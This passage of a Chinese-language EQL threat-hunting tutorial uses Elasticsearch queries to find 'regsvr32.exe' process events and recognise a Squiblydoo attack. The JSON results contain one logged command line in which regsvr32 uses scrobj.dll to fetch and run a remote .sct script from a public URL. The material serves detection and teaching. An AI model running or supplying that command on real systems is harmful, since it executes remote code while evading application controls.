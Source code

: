 |

匹配"process.name"为"regsvr32.exe"的任何事件。   __

|

为匹配事件返回最多 200 次命中。   响应返回 143 个相关事件。

    
    
    {
      "is_partial": false,
      "is_running": false,
      "took": 60,
      "timed_out": false,
      "hits": {
        "total": {
          "value": 143,
          "relation": "eq"
        }
      }
    }

### 检查命令行项目

'regsvr32.exe'进程与143个事件相关联。但是'regsvr32.exe'最初是如何被叫的呢？谁叫的？'regsvr32.exe' 是一个命令行实用程序。将结果范围缩小到使用命令行的进程：

    
    
    GET /my-data-stream/_eql/search
    {
      "query": """
        process where process.name == "regsvr32.exe" and process.command_line.keyword != null
      """
    }

查询将一个事件与"event.type"的"creation"匹配，指示"regsvr32.exe"进程的开始。根据事件的"process.command_line"值，"regsvr32.exe"使用"scrobj.dll"来注册脚本"RegSvr32.sct"。这符合Squiblydoo攻击的行为。

    
    
    {
      ...
      "hits": {
        "total": {
          "value": 1,
          "relation": "eq"
        },
        "events": [
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },